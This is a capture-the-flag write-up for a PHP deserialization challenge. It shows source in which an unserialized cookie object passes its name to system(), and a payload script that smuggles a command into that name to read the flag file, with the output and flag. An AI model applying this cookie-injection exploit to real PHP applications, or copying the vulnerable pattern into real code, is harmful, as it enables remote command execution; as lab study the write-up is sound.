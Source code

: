 # Baby Cat

Tag: `Deserialization`

[http://h4ck3r.quest:8601/](http://h4ck3r.quest:8601/)

## Writeup

The source is given:

```php
<?php
isset($_GET['source']) && die(!show_source(__FILE__));

class Cat
{
    public $name = '(guest cat)';
    function __construct($name)
    {
        $this->name = $name;
    }
    function __wakeup()
    {
        echo "<pre>";
        system("cowsay 'Welcome back, $this->name'");
        echo "</pre>";
    }
}

if (!isset($_COOKIE['cat_session'])) {
    $cat = new Cat("cat_" . rand(0, 0xffff));
    setcookie('cat_session', base64_encode(serialize($cat)));
} else {
    $cat = unserialize(base64_decode($_COOKIE['cat_session']));
}
?>
<p>Hello, <?= $cat->name ?>.</p>
<a href="/?source">source code</a>
```

I've tried to exploit `<?= $cat->name ?>` but it seems that it just print the variable, doesn't execute php code.

Hmm... `system()`? And there's no protection so basically is a trivial command injection.

You can view the flag name by `ls` then `cat` it. And that's a wrap for this challenge.

```php
<?php
class Cat
{
    public $name = '(guest cat)';
    function __construct($name)
    {
        $this->name = $name;
    }
    function __wakeup()
    {
        echo "<pre>";
        system("cowsay 'Welcome back, $this->name'");
        echo "</pre>";
    }
}
$cat = new Cat("Hacker';cat /flag_5fb2acebf1d0c558;'");
echo base64_encode(serialize($cat))
?>


<!-- ______________________
< Welcome back, Hacker >
 ----------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
FLAG{d3serializable_c4t}
Hello, Hacker';cat /flag_5fb2acebf1d0c558;'.
-->
```
